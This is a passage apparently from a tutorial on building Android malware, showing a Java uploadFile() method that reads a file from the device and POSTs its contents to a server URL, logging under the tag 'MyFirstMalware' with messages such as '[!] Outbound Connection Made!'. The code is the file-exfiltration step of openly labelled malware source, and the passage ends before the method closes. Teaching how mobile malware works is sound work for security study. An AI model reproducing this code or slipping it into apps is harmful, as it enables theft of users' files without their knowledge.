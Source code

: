Our `uploadFile()` method looks like this:

```java
protected void uploadFile(String serverUrl, String filePath) {
        try {
            // Create a URL object with the server endpoint
            URL url = new URL(serverUrl);

            // Open a connection to the server
            HttpURLConnection connection = (HttpURLConnection) url.openConnection();

            // Set the request method to POST
            connection.setRequestMethod("POST");

            // Enable input/output streams for sending/receiving data
            connection.setDoInput(true);
            connection.setDoOutput(true);

            // Create a boundary string for multipart/form-data
            String boundary = "*****" + System.currentTimeMillis() + "*****";

            // Set request headers
            connection.setRequestProperty("Content-Type", "multipart/form-data; boundary=" + boundary);

            // Create a data output stream to write data to the server
            DataOutputStream outputStream = new DataOutputStream(connection.getOutputStream());

            // Read the file and write it to the server
            File file = new File(filePath);
            FileInputStream fileInputStream = new FileInputStream(file);
            byte[] buffer = new byte[(int) file.length()];
            int bytesRead;
            while ((bytesRead = fileInputStream.read(buffer)) != -1) {
                outputStream.write(buffer, 0, bytesRead);
            }
            fileInputStream.close();

            // Close the output stream and get the server response
            outputStream.flush();
            outputStream.close();
            Log.d("MyFirstMalware", "[!] Outbound Connection Made!");
            int responseCode = connection.getResponseCode();
            if (responseCode == HttpURLConnection.HTTP_OK) {
                Log.d("MyFirstMalware", "[!] HTTP SUCCESS!");
                // Handle the successful upload
                BufferedReader reader = new BufferedReader(new InputStreamReader(connection.getInputStream()));
                String responseLine;
                StringBuilder response = new StringBuilder();
                while ((responseLine = reader.readLine()) != null) {
                    response.append(responseLine);
                }
                reader.close();

                // Print the server response
               Log.d("MyFirstMalware", "Server Response: " + response);
            } else {
                // Handle the error
                Log.d("MyFirstMalware", "File upload failed with response code: " + responseCode);
            }

            // Close the connection
            connection.disconnect();
```